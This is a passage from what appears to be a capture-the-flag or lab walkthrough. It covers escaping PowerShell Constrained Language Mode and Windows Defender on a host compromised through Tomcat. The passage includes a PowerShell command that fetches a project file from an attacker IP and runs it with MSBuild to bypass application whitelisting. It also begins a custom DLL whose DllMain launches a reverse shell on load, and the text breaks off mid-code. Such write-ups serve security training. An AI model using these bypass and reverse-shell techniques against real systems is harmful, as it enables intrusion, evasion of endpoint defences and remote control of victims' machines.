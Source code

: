![step3](step3.PNG)

now we have to byass the clm enviroment and windows defender. I used a msbuild method to bypass clm.  made the dll manually used mingw to compile the dll. since we landed in a writeable directory that we can execute binaries we don't need to move to another directory. 

```
C:\tomcat\apache-tomcat-8.5.37\bin
```

next we will download the application whitelisting using this msbuild bypass. githublink. we will drop it to disk, then run the bypass. 

```
powershell IWR "http://10.10.15.136/pinkie.csproj" -OutFile pinkie.csproj
c:\windows\microsoft.NET\Framework64\v4.0.30319\MSBUILD.exe pinkie.csproj
```

Creating a DLL without visual studio or msfvenom. 

we will be creating three files, dllmain.cpp, revshell.cpp, and rev_shell.h(header)

dllmain.cpp

```
#include "rev_shell.h"
#include <windows.h>
#include <stdio.h>

BOOL WINAPI DllMain( HINSTANCE hinstDLL,
                        DWORD fwdReason,
                        LPVOID lpReservered)
{
        switch (fwdReason)
        {
        case DLL_PROCESS_ATTACH:
                rev_shell();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
```